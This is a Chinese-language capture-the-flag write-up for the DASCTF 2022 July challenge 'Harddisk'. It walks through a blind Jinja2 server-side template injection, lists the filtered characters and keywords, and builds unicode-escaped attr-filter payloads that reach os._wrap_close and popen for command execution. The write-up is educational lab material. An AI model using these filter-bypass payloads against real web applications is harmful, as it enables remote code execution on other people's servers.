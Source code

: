 DASCTF2022 7月赛 - Harddisk
=========================

打开题目后以为是`SQL注入`，测试了一下发现输入的内容会回显回来，猜测是要考`SSTI`

使用`{{}}`被过滤了，接着使用`{%%}`可行，但是`print`关键字被过滤了，应该是要搞个无回显。

想用以前链子进行尝试，但是在调用`os库`时会报异常。由于没有回显，这里也不大清楚是为啥。于是改用了最原始的方法，构造思路如下

```php
{} # 类
↓↓↓
Object # 父类
↓↓↓
os._wrap_close # 调用的子类
↓↓↓
popen # 调用方法
```

接着要测试所过滤的字符了

```php

.
'
\x
[
]
requests
_
globals
getitem
init
...
```

过滤的内容很大，但是发现还是有一些可以调用的，如`attr`、`"`、`\u`、`\n`、`|`这些就差不多够用了。

通过`attr`过滤器调用需要的内容；然后使用`"`和`\u`主要是用于关键字过滤后，使用unicode编码进行绕过，这里应该也可以使用八进制来绕过；换行符主要是用于一些需要空格的地方

先构造`Object`类出来，这里可以用`{}|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")`来表示

接着调用`__subclasses__()`列出它的所有子类：`attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()`

由于这里无法判断我们需要的`os._wrap_close`类是第几个(没回显)，所以这里使用`for`循环+`if`判断的方式来判断

```php
{%for c in {}.__class__.__base__.__subclasses__()%}{if c.__name__ in "_wrap_close"}123{%endif%}{%endfor%}

↓↓↓

{%for%0ac%0ain%0a{}|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()%}{%if%0ac|attr("\u005f\u005f\u006e\u0061\u006d\u0065\u005f\u005f")in"\u005f\u0077\u0072\u0061\u0070\u005f\u0063\u006c\u006f\u0073\u0065"%}123{%endif%}{%endfor%}
```
